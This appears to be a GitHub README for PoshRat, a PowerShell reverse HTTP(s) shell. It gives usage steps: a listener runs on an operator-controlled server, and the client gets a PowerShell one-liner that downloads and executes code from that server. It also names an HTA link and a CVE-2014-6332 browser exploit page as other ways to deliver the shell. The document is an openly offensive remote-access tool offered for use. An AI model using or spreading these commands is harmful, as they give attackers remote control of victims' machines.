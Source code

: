 PoshRat
=======

PowerShell Reverse HTTP(s) Shell

1. Invoke PoshRat.ps1 On An A server you control.  Requires Admin rights to listen on ports.
2. To Spawn The Reverse Shell Run On Client

   iex (New-Object Net.WebClient).DownloadString("http://server/connect")
3. [OR] Browse to or send link to http://server/app.hta
4. [OR] For CVE-2014-6332 Send link to http://server/app.html

Created By Casey Smith @subTee

